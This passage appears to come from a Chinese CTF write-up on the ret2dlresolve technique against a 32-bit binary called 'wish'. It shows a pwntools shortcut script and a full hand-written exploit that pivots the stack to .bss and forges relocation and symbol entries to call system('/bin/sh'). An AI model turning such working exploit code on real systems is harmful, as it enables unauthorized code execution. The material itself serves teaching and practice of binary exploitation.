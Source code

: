```python
rop.read(0, dlresolve.data_addr, 200)
rop.ret2dlresolve(dlresolve)
r.send(b'A' * (0xc+4) + rop.chain())
pause(1)
r.send(dlresolve.payload)
r.interactive()
```
运行就能获得shell   
短短12行代码就能完成强大的ret2dl，pwntools确实是强大的工具。  

当然，我们要想了解ret2dlresolve的原理，最好的办法是[不借助轮子实现一次](https://blog.csdn.net/qq_51868336/article/details/114644569)。  
而且上边的自动化脚本发送的第一段栈迁移的payload长度正好是52个字符，很极限，我们手写的脚本不需要平衡栈的情况下只需要48个字符，多了一点空间：  
```python
from pwn import *

elf = ELF('./wish')

offset = 0xc + 4
ppp_ret = 0x080492a1      # ROPgadget --binary wish --only "pop|ret"
leave_ret = 0x08049125    # ROPgadget --binary wish --only "leave|ret"
plt_0 = 0x08049030        # objdump -d -j .plt wish
rel_plt = 0x08048350      # objdump -s -j .rel.plt wish
dynsym = 0x08048248       # readelf -S wish
dynstr = 0x080482b8       # readelf -S wish
ret = 0x0804900e          # ROPgadget --binary wish --only "ret"

pop_ebp_ret = ppp_ret + 2
read_plt = elf.plt['read']
stack_size = 0x800
bss_addr = elf.sym['__bss_start']
base_stage = bss_addr + stack_size
r = remote("xx.xx.xx.xx",xxxx)

# read(0, bss, 100)把payload2写入bss段，并把栈迁移到bss段
payload = b'A' * offset + p32(ret) + p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100) + \
          p32(pop_ebp_ret) + p32(base_stage) + p32(leave_ret)
r.send(payload)

align = 0x10 - ((base_stage + 40 - dynsym) % 16)
fake_sym_addr = base_stage + 40 + align  # 填充地址使其与dynsym的偏移16字节对齐（即两者的差值能被16整除），因为结构体sym的大小都是16字节
r_info = ((((fake_sym_addr - dynsym) // 16) << 8) | 0x7)  # 使其最低位为7，通过检测
fake_write_rel = flat(p32(elf.got['read']), p32(r_info))
fake_write_str_addr = base_stage + 40 + align + 0x10
fake_name = fake_write_str_addr - dynstr
fake_sym = flat(p32(fake_name), p32(0), p32(0), p32(0))

payload2 = flat(b'AAAA'
                , p32(ret)
                , p32(plt_0)
                , base_stage + 32 - rel_plt  # arg
                , p32(ppp_ret)
                , p32(base_stage + 80)
                , p32(base_stage + 80)
                , p32(7)  # len("/bin/sh")
                , fake_write_rel  # base_stage + 32
                , b'A' * align  # 用于对齐的填充
                , fake_sym  # base_stage + 40 + align
                , b'system\x00'  # 伪造出的字符串
                )
payload2 += b'A' * (80 - len(payload2)) + b'/bin/sh\x00'
payload2 += b'A' * (100 - len(payload2))
r.sendline(payload2)
```